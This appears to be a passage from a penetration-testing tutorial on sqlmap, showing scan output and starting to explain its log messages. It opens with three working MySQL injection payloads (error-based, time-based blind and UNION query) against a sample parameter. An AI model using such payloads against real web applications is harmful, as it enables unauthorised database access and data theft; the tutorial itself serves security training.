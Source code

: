 ```shell

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/
```

> [!NOTE]
> Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.
# SQLMap Output Description

At the end of the previous section, the `sqlmap` output showed us a lot of info during the scan. This data is usually crucial to understand, as it guides us through the automated SQL injection process. This shows us exactly what kind of vulnerabilities SQLMap is exploiting, which helps us report what type of injection the web application has. This can also become handy if we wanted to manually exploit the web application once SQLMap determines the type of injection and vulnerable parameter.

---
## Log Messages Description

The following are some of the most common messages usually found during a scan of SQLMap, along with an example from the previous exercise and its description.
### URL Content is Stable

`Log Message`:

- "target URL content is stable"

This means that there are no major changes between responses in case of continuous identical requests. This is important from the automation point of view since, in the event of stable responses, it is easier to spot differences caused by the potential SQLi attempts. While stability is important, SQLMap has advanced mechanisms to automatically remove the potential "noise" that could come from potentially unstable targets.
### Parameter Appears to Be Dynamic
